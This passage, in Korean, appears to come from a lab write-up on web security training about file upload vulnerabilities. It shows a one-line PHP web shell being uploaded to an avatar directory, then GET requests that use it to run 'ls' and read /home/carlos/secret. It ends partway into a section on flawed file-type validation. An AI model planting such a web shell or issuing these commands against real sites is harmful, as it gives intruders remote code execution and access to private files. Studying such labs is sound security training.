 이제 이미지가 업로드된 위치를 확인하기 위해 페이지의 소스코드에서 이미지를 어떤 경로에서 불러오는지를 확인해보자. 그럼 `/files/avatars/snoopy.png` 경로에서 이미지를 가져오는 것을 확인할 수 있다.

<br>

```php
// webshell.php
<?php echo system($_GET['command']); ?>
```

이제 해당 웹 사이트는 업로드 파일에 대한 검사를 진행하지 않기 때문에 웹 쉘 파일을 하나 제작하여 똑같이 업로드한다. 성공적으로 파일이 업로드되는 것을 확인할 수 있다.

<br>

`GET /files/avatars/webshell.php?command=ls HTTP/2`

이제 파일이 저장되는 해당 경로에 `command` 파라미터를 포함하여 시스템 명령어 `ls`를 실행하도록 요청하자.

<br>

![image](https://github.com/1unaram/1unaram.github.io/assets/37824335/fd887d0b-90f3-466c-931a-beca31713464)

응답으로 `ls` 명령어에 대한 결과 값을 받을 수 있다.

<br>

`GET /files/avatars/webshell.php?command=cat+/home/carlos/secret HTTP/2`

이제 문제에서 설명하는 것처럼 `/home/carlos/secret` 파일을 읽기 위해 `cat` 명령어를 이용하여 파라미터를 구성하자. 이때 명령어가 공백으로 구분되기 때문에 URL에서 공백을 의미하는 `+` 문자를 추가해주었다.

이제 응답으로 파일 내용을 받을 수 있고 해당 문자열을 제출하면 문제를 해결할 수 있다.

<br>

## Exploiting flawed validation of file uploads

실제 환경에서 우리가 이전 lab에서 본 것처럼 파일 업로드 공격에 대한 어떠한 보호 기법도 적용되지 않은 웹 사이트를 찾기는 어렵다. 그러나 보호 기법이 있다고 해서 그것이 강하다는 것을 의미하지는 않는다. 때로는 원격 코드 실행을 위한 웹 쉘을 얻기 위한 이러한 메커니즘의 결함을 악용할 수 있다.

<br>

## Flawed file type validation

브라우저가 HTML form을 제출할 때, 일반적으로 `application/x-www-form-url-encoded` content type과 함께 `POST` 요청하여 데이터를 전송한다. 이는 이름이나 주소와 같은 간단한 텍스트를 전달하기에 좋다. 그러나 이미지 파일이나 PDF 문서와 같은 많은 양의 바이너리 데이터를 보내기에는 적합하지 않는다. 이러한 경우에는 `multipart/form-data` content type을 선호한다.

<br>

```
POST /images HTTP/1.1
    Host: normal-website.com
    Content-Length: 12345
    Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="image"; filename="example.jpg"
    Content-Type: image/jpeg

    [...binary content of example.jpg...]

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="description"

    This is an interesting description of my image.

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="username"

```
